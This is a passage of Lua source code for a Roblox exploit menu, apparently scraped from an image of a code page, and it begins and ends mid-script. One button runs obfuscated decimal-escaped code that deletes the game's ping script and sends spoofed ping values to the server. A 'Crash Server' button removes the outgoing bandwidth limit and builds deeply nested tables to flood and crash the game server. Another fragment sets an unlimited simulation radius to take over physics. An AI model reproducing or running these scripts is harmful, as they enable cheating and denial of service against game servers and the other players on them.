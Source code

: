 
setsimulationradius(math.huge, math.huge)
end)

-------------------------------------------------------------


-------------------------------------------------------------------------

local Section = Tab:NewSection("Ping")
Section:NewButton("%40 Works", "Made by rus ab", function()
loadstring("\119\97\105\116\40\49\41\10\105\102\32\103\97\109\101\46\80\108\97\121\101\114\115\46\76\111\99\97\108\80\108\97\121\101\114\46\80\108\97\121\101\114\83\99\114\105\112\116\115\58\70\105\110\100\70\105\114\115\116\67\104\105\108\100\40\34\99\108\105\101\110\116\80\105\110\103\34\41\32\116\104\101\110\10\32\32\32\32\103\97\109\101\46\80\108\97\121\101\114\115\46\76\111\99\97\108\80\108\97\121\101\114\46\80\108\97\121\101\114\83\99\114\105\112\116\115\58\70\105\110\100\70\105\114\115\116\67\104\105\108\100\40\34\99\108\105\101\110\116\80\105\110\103\34\41\58\68\101\115\116\114\111\121\40\41\10\101\108\115\101\10\32\32\32\32\112\114\105\110\116\40\34\82\101\97\100\121\32\116\111\32\103\111\34\41\10\101\110\100\10\10\10\108\111\99\97\108\32\109\105\110\78\117\109\32\61\32\48\10\10\108\111\99\97\108\32\109\97\120\78\117\109\32\61\32\49\48\10\10\10\10\10\10\119\104\105\108\101\32\116\114\117\101\32\100\111\10\32\32\32\32\119\97\105\116\40\49\41\10\32\32\32\32\10\32\32\32\32\108\111\99\97\108\32\112\105\110\103\110\117\109\32\61\32\109\97\116\104\46\114\97\110\100\111\109\40\109\105\110\78\117\109\44\32\109\97\120\78\117\109\41\10\32\32\32\32\10\32\32\32\32\103\97\109\101\46\82\101\112\108\105\99\97\116\101\100\83\116\111\114\97\103\101\46\69\118\101\110\116\115\46\85\112\100\97\116\101\80\105\110\103\58\70\105\114\101\83\101\114\118\101\114\40\112\105\110\103\110\117\109\41\10\101\110\100\10")()
end)

-------------------------------------------------------------------------

local Section = Tab:NewSection("Crash Server")
Section:NewButton("Crash", "Made by rus ab", function()
_G.on = true --// toggle

while wait(1.0) do --// don't change it's the best
   if _G.on == true then
   game:GetService("NetworkClient"):SetOutgoingKBPSLimit(math.huge)
   local function getmaxvalue(val)
      local mainvalueifonetable = 499999
      if type(val) ~= "number" then
          return nil
      end
      local calculateperfectval = (mainvalueifonetable/(val+2))
      return calculateperfectval
   end

   local function bomb(tableincrease, tries)
    local maintable = {}
    local spammedtable = {}

    table.insert(spammedtable, {})
    z = spammedtable[1]

    for i = 1, tableincrease do
       local tableins = {}
       table.insert(z, tableins)
       z = tableins
    end
